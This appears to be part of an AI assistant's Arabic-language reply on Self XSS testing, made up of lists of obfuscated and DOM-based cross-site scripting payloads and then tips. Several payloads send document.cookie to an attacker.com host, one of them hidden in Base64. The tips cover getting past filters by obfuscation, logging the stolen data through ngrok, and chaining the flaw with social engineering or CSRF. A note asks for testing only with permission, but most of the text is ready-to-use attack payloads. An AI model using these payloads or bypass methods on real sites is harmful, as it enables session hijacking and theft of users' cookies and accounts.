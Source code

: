 5. حقن مع التعتيم:
- <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>: يفك تشفير Base64 لتنفيذ تنبيه.
- <img src=x onerror="eval(atob('ZmV0Y2goJ2h0dHA6Ly9hdHRhY2tlci5jb20vbG9nP2M9Jytkb2N1bWVudC5jb29raWUp'))">: يفك تشفير Base64 ويرسل ملفات تعريف الارتباط.
- <script>alert(String.fromCharCode(88,83,83))</script>: يستخدم رموز ASCII.
- <img src=x onload="setTimeout(() => fetch('http://attacker.com/log?c='+document.cookie), 1000)">: يؤخر إرسال البيانات.
- <script>document['location']='http://attacker.com'</script>: يستخدم صيغة غير قياسية.

6. حقن تستهدف DOM:
- <img src=x onerror=alert('XSS')>: ينفذ تنبيهًا في DOM.
- <svg onload=fetch('http://attacker.com/log?c='+document.cookie)>: يرسل ملفات تعريف الارتباط في DOM.
- data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4: ينفذ تنبيهًا عبر HTML مشفر.
- javascript:fetch('http://attacker.com/log?c='+document.cookie): يرسل ملفات تعريف الارتباط عبر بروتوكول.
- "-fetch('http://attacker.com/log?c='+document.cookie)-": يرسل ملفات تعريف الارتباط في تعبير JavaScript.



---

**نصائح إضافية**:
- **اختبار توافق المتصفح**: اختبر الحقن في متصفحات مختلفة (Chrome، Firefox، Safari، Edge) لأن السلوك قد يختلف.
- **إعداد الخادم**: استخدم خادمًا بسيطًا (مثل Python `http.server`) أو `ngrok` لتسجيل البيانات، وتأكد من دعم طلبات GET وPOST.
- **تجاوز الفلاتر**: جرب تغيير حالة الأحرف (مثل `<SCRIPT>`)، استخدام أحداث غير شائعة (مثل `onfocus`)، أو تعتيم الشيفرة بـ Base64 أو ASCII.
- **اختبار نقاط الإدخال**: ركز على حقول الملف الشخصي، معاينات النماذج، ومعلمات URL التي تُعالج في العميل.
- **الأدوات**: استخدم **Selenium** لمحاكاة التفاعل، **Burp Suite** لمراقبة الطلبات، أو **XSStrike** لتوليد الحقن.
- **تقييم التصعيد**: تحقق من إمكانية دمج Self XSS مع هجمات هندسة اجتماعية أو CSRF لزيادة التأثير.
- **القيود**: لاحظ أن Self XSS تؤثر فقط على المستخدم الذي يدخل الشيفرة، وقد تكون محدودة بسبب CSP أو تشفير الإدخال.
- **السلامة**: اختبر فقط بإذن صريح (مثل برامج مكافآت الأخطاء) وتجنب إلحاق الضرر.

إذا كنت تريد شرح خطوة أخرى بنفس الأسلوب (مثل "Test for DOM-Based XSS" أو "Bypassing XSS Filters")، أو التركيز على سياق معين (مثل Self XSS في واجهات تحرير المحتوى)، أخبرني وسأقدم ردًا مخصصًا!